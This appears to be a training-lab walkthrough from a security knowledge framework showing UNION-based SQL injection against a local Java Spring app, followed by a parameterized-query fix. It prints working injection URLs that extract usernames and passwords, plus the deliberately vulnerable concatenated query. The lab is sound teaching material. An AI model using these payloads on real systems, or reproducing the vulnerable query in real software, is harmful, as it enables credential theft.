 # Java - SQLI (Union)

## Running the app Java

First make sure java is installed on your host machine. After installation, we go to the folder of the lab we want to practice. "i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following command:

```
$ ./mvnw spring-boot:run
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](../../.gitbook/assets/java/SQLI/1.png)

```
http://localhost:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](../../.gitbook/assets/java/SQLI/2.png)

```
http://localhost:5000/home/1'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```java
String sql = "SELECT pageId, title, content FROM pages WHERE pageId="+pageId;
```

### Step3

Now we can also use logical operators to determine whether we can actually manipulate the SQL statements.

We start with a logical operator which is false (and 1=2). The expected behaviour for injecting a false logical operator would be an error or 404.

![](../../.gitbook/assets/java/SQLI/3.png)

```
http://localhost:5000/home/1 and 1=2
```

After that we inject a logical operator which is true (and 1=1). This should result in the application run as intended without errors.

![](../../.gitbook/assets/java/SQLI/4.png)

```
http://localhost:5000/home/1 and 1=1
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](../../.gitbook/assets/java/SQLI/5.png)

```
http://localhost:5000/home/1 union select 1
```

This query results in an error, this is due to the fact that the original query started with 3 columns namely\
\* pageId\
\* title\
\* content

![](../../.gitbook/assets/nodejs/SQLI/6.png)

![](../../.gitbook/assets/java/SQLI/7.png)

```
http://localhost:5000/home/1 union select 1,2,3
```

Notice how "title" and "content" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take an educated guess for the table we want to steal sensitive information from. Again we can see if we try to query a non existent table we get an error. For a correct table we see the application function as intended.

![](../../.gitbook/assets/java/SQLI/8.png)

```
http://localhost:5000/home/1 union select 1,2,3 from user
```

![](../../.gitbook/assets/java/SQLI/9.png)

```
http://localhost:5000/home/1 union select 1,2,3 from users
```

![](../../.gitbook/assets/java/SQLI/10.png)

```
http://localhost:5000/home/1 union select 1,username,password from users
```

## Mitigation

SQL Injection can be prevented by following the methods described below:

Primary Defenses:

First step: White-list Input Validation\
Second step: Use of Prepared Statements (Parameterized Queries)\\

Additional Defenses:

Also: Enforcing Least Privilege\
Also: Performing Allow-list Input Validation as a Secondary Defense

In this case, we have presented a SQLi code fix by using parameterized queries (also known as prepared statements) instead of string concatenation within the query.

The following code is vulnerable to SQL injection as the user input is directly concatenated into query without any form of validation:

```java
public List<Page> getPage(String pageId){
    String sql = "SELECT pageId, title, content FROM pages WHERE pageId="+pageId;
    List<Page> pages = jdbcTemplate.query(sql, (resultSet, rowNum) -> new Page(resultSet.getInt("pageId"),resultSet.getString("title"), resultSet.getString("content")));
    return pages;
}
```

This code can be easily rewritten in a way that prevent the user input from interfering with the query structure:

```java
public List<Page> getPage(String pageId){
    String sql = "SELECT pageId, title, content FROM pages WHERE pageId=?";
    List<Page> pages = jdbcTemplate.query(sql,new Object[]{pageId} , (resultSet, rowNum) -> new Page(resultSet.getInt("pageId"),resultSet.getString("title"), resultSet.getString("content")));
    return pages;
}
```

Can you try to implement input validation or escaping?

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection" %}

SQLite Reference

{% embed url="https://www.sqlitetutorial.net/sqlite-java/query/" %}

